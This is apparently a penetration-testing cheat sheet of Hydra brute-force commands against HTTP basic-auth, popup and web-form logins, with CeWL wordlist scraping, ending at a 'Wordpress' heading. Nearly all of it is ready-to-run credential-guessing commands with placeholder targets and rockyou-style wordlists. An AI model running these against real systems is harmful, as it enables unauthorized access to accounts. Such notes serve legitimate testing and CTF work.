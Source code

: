 Basic auth.

```bash
hydra -L wordlist.txt -P wordlist.txt -u -f $ip -s $port http-get /
```

Popup Logins.

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt $ip http-get
```

Webapp Login Brute..

If button..

```bash
hydra -l admin -P /usr/share/wordlists/combo.txt -f $ip -s 9443 https-post-form "/Admin/login.php:txtusername=^USER^&txtpassword=^PASS^&btnlogin=Sign+in:Wrong Username and Password"
```

```bash
# Third parameter can be F=html_content or S=html_content, F is inferred
hydra -l admin -P wordlist.txt -f $ip -s $port http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
hydra -V -f -L /opt/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/fasttrack.txt -s 80 $ip http-post-form "/index.php:username=^USER^&password=^PASS^:Login failed"
hydra -V -f -l $user -P /usr/share/wordlists/rockyou.txt -s $port $ip http-post-form "/blog/admin.php:username=^USER^&password=^PASS^:Incorrect username"
hydra -L user.txt -P pass.txt 10.10.123.83 http-post-form "/Account/login.aspx:__VIEWSTATE=hRiqPHaIdHtHLPKokY59%2B3WUD9ZtsmFSLG55rJABKbT96KUnil6PSus2s75rJc8vTAE%2FEwshWpfpFAiJph7q2PzNZ37cCzPieJzYqs9QMUT947ZVfG7IbjK6qCzrjcKpMsqoov6Ux5RgPM9%2FW7IoWO8%2FXpP7Nbs7NS6xWBQr7s%2B1oUL%2B&__EVENTVALIDATION=fPja7KnrVpkm0bLBQSRGAe%2FmniIYroH63YCNKLdpLMgJN1lAWkehyJsp7MO1wKFsmMrrrm2IU594ajRCbyTN06CR2ew3apQGWSgeYHFacGYWD7509OV%2BqPO3wYCge9Jxl7MSgI%2Fny5yRTI30DifQFZDuopQAKaObXPbgfpYF3EA6UR8K&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

Base64 encoded login.

```bash
cewl http://$ip:8081/ -d 8| grep -v CeWL >> custom-wordlist.txt
cewl --lowercase http://$ip:8081/ -d 8| grep -v CeWL  >> custom-wordlist.txt
# -I : ignore any restore files
# -f : stop when a login is found
# -L : username list
# -P : password list
# ^USER64^ and ^PASS64^ tells hydra to base64-encode the values
# C=/ tells hydra to establish session cookies at this URL
# F=403 tells hydra that HTTP 403 means invalid login
hydra -I -f -L usernames.txt -P custom-wordlist.txt 'http-post-form://$ip:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://$ip:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

Wordpress.
